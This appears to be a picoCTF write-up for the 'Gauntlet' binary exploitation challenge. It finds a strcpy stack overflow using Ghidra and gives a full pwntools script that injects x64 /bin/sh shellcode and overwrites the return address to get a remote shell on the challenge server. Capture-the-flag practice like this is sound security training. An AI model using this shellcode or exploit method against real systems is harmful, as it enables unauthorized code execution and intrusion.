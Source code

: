 > Okay, time for a challenge. gauntlet `nc mercury.picoctf.net 11022`

![image0](./image0.png)

My first idea was to do the same thing as Gauntlet 0. I first had to see if there was similar code and based on the GDB, there was, however I missed something.

Let's open it up in Ghidra. 

![image1](./image1.png)

Those are notes I took down immediately on the code. Due to only 104 bytes are taken in at local_78, therefore, our buffer isnt at malloc, but at the `strcpy`.

What ever 1000 bytes are taken in, as long as not flushed, it will allow this buffer overflow. It is a strcpy shellcode attack.

Using this shell-storm for our shellcode, I chose a [Linux 64x /bin/sh exec attack](http://shell-storm.org/shellcode/files/shellcode-603.php).

```python
from pwn import *

p = remote("mercury.picoctf.net", 11022)

pwn = b"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
pwn = pwn.ljust(120, b"A") # Caps string at 120 chars and adds rest to right side for offset
print(pwn)
#b'H1\xd2H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7PWH\x89\xe6\xb0;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

out = p.recv().decode('utf-8')
out = int(out, 16)
pwn += p64(out)

p.sendline('z') # This will get us past the first flush
p.recv()
p.sendline(pwn)
p.interactive()
```

> a6a8ff80a5f639a05c84b5b518384c04